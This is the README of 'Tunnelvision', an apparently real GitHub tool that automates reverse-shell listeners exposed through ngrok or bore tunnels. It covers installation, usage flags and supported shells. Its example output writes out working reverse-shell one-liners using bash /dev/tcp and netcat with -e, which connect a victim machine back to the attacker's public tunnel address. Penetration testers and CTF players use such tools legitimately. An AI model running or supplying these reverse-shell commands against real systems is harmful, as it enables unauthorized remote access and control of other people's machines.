 # Tunnelvision

Automate reverse shell setup using tunnel services (ngrok or bore).

## What it does

- Sets up a local listener on your chosen port
- Creates a TCP tunnel (ngrok or bore) to expose your listener publicly
- Displays ready-to-use example reverse shell commands with your public IP/port
- Automatically upgrades Linux shells for better interactivity
- Supports both Linux/Mac and Windows shells

## Installation

```bash
# Clone the repository
git clone https://github.com/Nissen96/tunnelvision.git
cd tunnelvision

# Install dependencies with uv (recommended)
uv sync

# Or optionally with pip (a venv is recommended)
pip install .
```

## Setup

### For bore (recommended - no setup required!)
Bore works out of the box with no authentication or setup required. Just install bore:

```bash
# Install bore (choose one method)

# Option 1: Install with cargo
cargo install bore-cli

# Option 2: Download binary from releases
# https://github.com/ekzhang/bore/releases

# Option 3: Install with package manager
# macOS: brew install bore-cli
# Arch Linux: yay -S bore
```

#### Self-hosting bore server
You can optionally run your own bore server for better control:

```bash
# Start your own bore server
bore server

# Use your server with this tool
uv run revshell.py 4444 --to your-server.com
```

### For ngrok
If you want to use ngrok instead of bore:

1. Install ngrok Python package:
   ```bash
   pip install ngrok
   ```

2. Sign up for an [ngrok account](https://dashboard.ngrok.com/signup) if you don't have one.
3. Get your ngrok auth token: [Your Authtoken](https://dashboard.ngrok.com/get-started/your-authtoken)
4. Set your auth token:
   ```bash
   export NGROK_AUTHTOKEN=your_token_here
   ```
   Or create a `.env` file:
   ```
   NGROK_AUTHTOKEN=your_token_here
   ```

## Usage

*Note: Replace `uv run` with `python` if you installed with `pip`*.

```bash
# Basic usage (defaults to bore tunnel and bash shell)
uv run revshell.py 4444

# Use ngrok instead
uv run revshell.py 4444 --tunnel ngrok

# Specify shell type
uv run revshell.py 4444 --shell powershell
uv run revshell.py 4444 --tunnel bore --shell sh
uv run revshell.py 4444 --tunnel ngrok --shell bash

# Use custom bore server
uv run revshell.py 4444 --to my-bore-server.com
uv run revshell.py 4444 --tunnel bore --to localhost:7835

# Short options
uv run revshell.py 4444 -t ngrok -s powershell
```

## Options

- **PORT**: Local port to listen on (1-65535) - positional argument
- **--tunnel, -t**: Tunnel type - 'ngrok' or 'bore' (default: bore)
- **--shell, -s**: Shell type for reverse shell examples (default: bash)
- **--to**: Remote server for bore tunnel (default: bore.pub). Only used with bore tunnel.

### Supported Shells

**Linux/Unix:**
- `sh`, `bash`, `zsh`, `fish`, `dash`, `ash`, `ksh`, `csh`, `tcsh`, `mksh`, `pdksh`

**Windows:**
- `powershell`, `pwsh`, `cmd`

**Note:** You can specify any shell name - the tool will generate appropriate reverse shell examples for the specified shell.
However, the shell will not be attempted upgraded if it is unknown.

## Example Output

```
[+] Setting up bore tunnel...
[+] Listening at 1.2.3.4:12345 (bore.pub)...

=============== REVSHELL EXAMPLES ===============

Bash:
────────────────────────────────────────────
bash -i >& /dev/tcp/1.2.3.4/12345 0>&1
────────────────────────────────────────────

Netcat:
────────────────────────────────────────────
nc 1.2.3.4 12345 -e bash
ncat 1.2.3.4 12345 -e bash
────────────────────────────────────────────

[+] Waiting for connection...
    Press Ctrl+C to exit
```

## Features

- **Multiple tunnel options**: Choose between bore or ngrok
- **Automatic shell upgrade**: Linux shells get PTY upgrades, aliases, and proper terminal settings
- **Multiple examples**: Bash, Netcat, Python, Perl, Ruby, and PowerShell reverse shells
- **Clean exit**: Automatically closes tunnels when you exit
- **Cross-platform**: Works on Linux, macOS, and Windows

## Requirements

- Python 3.9+
- bore (required for bore tunnels)
- ngrok Python package (optional, only needed for ngrok tunnels)
- `uv` package manager (recommended) or `pip`

## License

MIT

